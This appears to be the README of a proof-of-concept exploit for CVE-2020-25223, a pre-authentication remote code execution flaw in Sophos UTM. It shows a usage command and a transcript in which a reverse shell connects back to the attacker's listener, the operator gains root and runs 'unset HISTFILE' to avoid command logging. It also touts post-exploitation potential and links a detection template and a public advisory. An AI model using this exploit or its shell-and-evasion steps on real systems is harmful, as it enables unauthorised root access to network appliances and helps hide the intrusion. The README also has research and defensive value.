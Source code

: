 # sophucked
CVE-2020-25223 RCE PoC, gets reverse shell. Pre-auth. Implemented this quickly as it was needed.


## Example Use:
```
# python sophucked.py https://x.x.x.x:4443 x.x.x.x 80
(+) starting handler on port 80
(+) Sending callback to x.x.x.x:80
(+) connection from x.x.x.x
(+) pop thy shell!
bash: no job control in this shell
utm:/var/confd # unset HISTFILE
unset HISTFILE
utm:/var/confd # id
id
uid=0(root) gid=0(root) groups=0(root)
utm:/var/confd # exit
exit
exit
*** Connection closed by remote host ***
# 
```

## Scanning/Detection
Not implemented in this, just use the [nuclei template](https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2020/CVE-2020-25223.yaml).

## Post-exploitation notes
These have a python interpreter, and actually a very fully featured Linux environment available. Amazing potential for post-exploitation. 

## Blue team notes
I'm sure someone who cares can fill this in. Bitter (a subset of "blue team twitter") will probably do so shortly. 

## References, etc.

Third party reference (bug details): https://www.atredis.com/blog/2021/8/18/sophos-utm-cve-2020-25223

Direct complaints to Sophos, who somehow thought passing user input to `open()` in Perl was a good idea in the 21st century. 
